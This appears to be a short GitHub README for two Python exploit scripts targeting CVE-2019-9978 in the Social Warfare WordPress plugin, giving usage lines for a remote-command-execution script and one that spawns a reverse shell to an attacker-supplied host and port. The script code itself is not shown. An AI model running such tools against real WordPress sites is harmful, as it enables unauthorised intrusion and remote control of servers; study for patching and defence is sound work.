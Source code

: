 # CVE-2019-9978
## Exploit Scripts

### social-warfare-rce.py
Setups an http server and serves as an interface to execute arbitrary commands via payload.txt and RFI/RCE vuln.  
#### Usage
```python
python3 social-warefare-rce.py http://example.com/wordpress/ lhost
```

### social-warfare-rev.py
Executes a reverse shell payload and spawns a netcat listener to catch the shell.
#### Usage
```python
python3 social-warefare-rev.py http://example.com/wordpress/ lhost lport
```

